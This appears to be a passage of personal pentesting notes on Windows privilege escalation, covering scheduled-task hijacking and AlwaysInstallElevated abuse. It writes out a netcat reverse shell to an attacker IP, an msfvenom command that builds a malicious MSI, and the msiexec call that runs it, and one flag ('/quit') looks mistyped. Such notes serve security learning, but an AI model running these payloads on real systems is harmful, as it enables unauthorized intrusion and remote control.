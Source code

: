 With this we can get a lot of information about the task, but what matters most to us is the "Task to Run" parameter which indicates the obvious, as well as the "Run As User" parameter, which again, indicates what it says. If we can modify the task to run exec, we can then change it for a payload that may result in escalation. 

To check file permissions on the executable, we use `icacls`. With this we can look for the `(F)` parameter which indicates full access as long as our user belongs to the corresponding group. `(M)` indicates modify. `(R)` Read. `(X)` Execute.

If yes, then we can proceed with our payload, this could be either executing an application to which the "run as user" has access to, or more directly creating a reverse shell (which needs the user to be able to run it, so worth checking that out first). As usual we can refer to [S(kull)hells](https://www.revshells.com) for quick reverse/bind shells. but using for example nc64 (netcat for windows) a quick payload could be:
```
c:\path\nc64.exe AtacckerIP PORT -e cmd.exe
```
Finally we need to wait for the next time the scheduled task runs, then we should receive the reverse shell. Normally (if well configured) we a random user shouldn't be able to trigger the task whenever, but if for some reason our user has that luck we could ran it manually with:
```
schtasks /run /tn vulntask
```

### Always Install Elevated
Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account. We could take advantage of this to generate a malicious MSI file that would run with admin privileges.

This method requires two registry values to be set.  We can query these from the command line using the commands below
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
To be able to exploit this vulnerability, both should be set. If they are, we can generate a malicious .msi file using [[Metasploit#Msfvenom|Msfvenom]], as seen below:
```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```
As this is a reverse shell we should preferably run the [[Metasploit]] handlser module configured accordingly. Once we have transferred the file we have created, we can run the installer with the command below and receive the reverse shell:
```
msiexec /quit /qn /i C:\Windows\Temp\malicious.msi
```

## Abusing Service Misconfigurations
Windows services are managed by the Service Control Manager (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.
